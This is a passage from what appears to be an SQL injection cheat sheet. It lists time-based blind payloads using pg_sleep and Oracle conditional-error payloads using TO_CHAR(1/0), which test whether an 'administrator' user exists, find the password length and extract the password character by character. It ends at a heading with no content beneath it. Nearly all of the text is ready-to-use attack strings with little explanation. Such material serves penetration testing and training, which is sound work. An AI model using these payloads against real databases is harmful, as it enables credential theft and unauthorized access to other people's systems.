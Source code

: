 Brute force password character

```txt
'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='$a$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,2,1)='$a$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
...
'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,8,1)='$a$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

  

## [Conditional Error](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#conditional-error)

### [1. First Check](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#1.-first-check-1)

```txt
'
''
'||(SELECT '')||'
'||(SELECT '' FROM dual)||'
'||(SELECT '' FROM fake_table)||'
'||(SELECT '' FROM users WHERE ROWNUM = 1||'
'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
'|| (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

### [2. Check if Content Value Exists](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#2.-check-if-content-value-exists-1-1)

```txt
'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

If so, determine the password length

```txt
''||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
''||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
...
''||(SELECT CASE WHEN LENGTH(password)=8 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Brute force password character
